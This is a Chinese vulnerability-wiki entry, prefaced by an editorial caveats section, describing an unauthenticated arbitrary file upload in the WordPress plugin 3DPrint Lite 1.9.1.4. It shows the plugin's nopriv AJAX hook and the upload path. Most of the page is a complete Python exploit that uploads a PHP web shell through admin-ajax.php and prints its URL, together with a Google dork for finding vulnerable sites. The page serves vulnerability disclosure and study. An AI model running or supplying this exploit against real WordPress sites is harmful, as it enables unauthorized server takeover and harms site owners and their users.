





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：1.9.1.4 tested, script&lt;=1.9.1.4; AJAX nopriv registration; writable p3d path and PHP execution

- **适用与权限边界（1）**：is_admin用于后台请求上下文而非用户权限，nopriv注册支持匿名入口，标准化应明确这一点。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：脚本以jsonrpc字符串判断漏洞、以文件名回显判断上传成功，不验证落盘/代码执行，可能误报。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（3）**：正文单版本与脚本&lt;=范围需统一官方边界；无修复版本/CVE原始公告。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（4）**：文件上传后直接推服务器权限需保留PHP可执行配置条件。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WordPress 3DPrint Lite 3dprint-lite-functions.php 任意文件上传漏洞

## 漏洞描述

WordPress 3DPrint Lite Version 1.9.1.4 版本 中的 3dprint-lite-functions.php 文件存在文件上传漏洞，攻击者通过构造请求包可以上传任意文件获取服务器权限

## 漏洞影响

```
3DPrint Lite Version 1.9.1.4 版本
```

## 插件名

3DPrint Lite

https://downloads.wordpress.org/plugin/3dprint-lite.1.9.1.4.zip

## 漏洞复现

首先看一下插件注册的接口




```
if ( is_admin() ) {
	add_action( 'admin_enqueue_scripts', 'p3dlite_enqueue_scripts_backend' );
	add_action( 'wp_ajax_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	add_action( 'wp_ajax_nopriv_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	include 'includes/3dprint-lite-admin.php';
}
else {
	add_action( 'wp_enqueue_scripts', 'p3dlite_enqueue_scripts_frontend' );
	include 'includes/3dprint-lite-frontend.php';
}
```

跟踪 p3dlite_handle_upload 方法 `wp-content/plugins/3dprint-lite/includes/3dprint-lite-functions.php`




向下看可以看到一个标准的文件上传代码




通过调试可以找到上传路径 `/wp-content/uploads/p3d/`




未授权调用 p3dlite_handle_upload 上传文件

```
# Exploit Title: Wordpress Plugin 3DPrint Lite 1.9.1.4 - Arbitrary File Upload
# Google Dork: inurl:/wp-content/plugins/3dprint-lite/
# Date: 22/09/2021
# Exploit Author: spacehen
# Vendor Homepage: https://wordpress.org/plugins/3dprint-lite/
# Version: <= 1.9.1.4
# Tested on: Ubuntu 20.04.1

import os.path
from os import path
import json
import requests;
import sys

def print_banner():
	print("3DPrint Lite <= 1.9.1.4 - Arbitrary File Upload")
	print("Author -> spacehen (www.github.com/spacehen)")

def print_usage():
	print("Usage: python3 exploit.py [target url] [php file]")
	print("Ex: python3 exploit.py https://example.com ./shell.php")

def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text
	if ("jsonrpc" in raw):
		return True;
	else:
		return False;

def main():

	print_banner()
	if(len(sys.argv) != 3):
		print_usage();
		sys.exit(1);

	base = sys.argv[1]
	file_path = sys.argv[2]

	ajax_action = 'p3dlite_handle_upload'
	admin = '/wp-admin/admin-ajax.php';

	uri = base + admin + '?action=' + ajax_action ;
	check = vuln_check(uri);

	if(check == False):
		print("(*) Target not vulnerable!");
		sys.exit(1)

	if( path.isfile(file_path) == False):
		print("(*) Invalid file!")
		sys.exit(1)

	files = {'file' : open(file_path)}
	print("Uploading Shell...");
	response = requests.post(uri, files=files)
	file_name = path.basename(file_path)
	if(file_name in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + "wp-content/uploads/p3d/" + file_name);
	else:
		print("Shell Upload Failed")
		sys.exit(1)

main();        
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
